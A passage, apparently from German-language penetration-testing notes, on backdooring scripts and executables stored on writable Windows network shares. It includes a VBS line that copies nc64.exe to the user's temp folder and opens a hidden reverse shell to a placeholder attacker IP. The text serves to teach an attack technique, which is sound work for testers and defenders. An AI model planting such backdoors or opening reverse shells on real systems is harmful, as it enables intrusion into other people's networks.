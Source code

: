Ein bekanntes Szenario wäre, wenn wir ein Shortcut zu einem Script oder einer ausführbaren Datei in so einem Share finden.

![alt text](images/image9.png)

Der Grund für so einen Fund wäre bspw. dass ein Admin diese ausführbare Datei dort platziert und von den Usern im Netzwerk ausgeführt werden kann, ohne dass jeder User diese Datei auf seinem Rechner haben muss. Wenn wir auf dieser Datei Schreibrechte haben, können wir dort eine Backdoor platzieren und jeden Payload ausführen lassen, den wir möchten. 

Ausserdem wird jedes Script oder Programm dass von Share aus gestartet wird auch in den %temp% Ordner des jeweiligen Benutzers kopiert. Also wird jeder Payload in diesem Kontext gestartet. 

### Backdooring .vbs Scripts

Als Beispiel nehmen wir ein VBS Script, dass sich in einem entsprechenden Netzwerkshare befindet. Ausserdem platzieren wir eine Kopie von nc64 in dem gleichen Ordner und platzieren folgenden Code im shared Script:

```bash
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```

Dieser Befehl würde nc64.exe aus dem Netzwerkshare in den %temp% Ordner des Users kopieren und eine Reverseshell zurück zum Attacker senden, wenn der User das VBS Script ausführt.

